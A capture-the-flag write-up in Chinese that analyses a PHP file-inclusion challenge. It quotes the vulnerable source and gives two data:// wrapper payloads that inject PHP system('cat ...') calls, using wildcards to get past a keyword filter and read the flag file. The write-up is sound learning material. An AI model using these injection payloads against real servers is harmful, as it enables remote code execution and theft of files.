


```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

拼接了.php


## 第一种

依旧利用data://text/plain

并通过?>闭合标签

同时利用*匹配字符串

```
?c=data://text/plain,<?php system("cat fl*");?>
```



由于<?php system("cat fl*");?>先执行，因此后面的.php无法执行，因此对结果无影响


## 第二种

利用?匹配字符串

```
?c=data://text/plain,<?php system("cat ????.???");?>
```

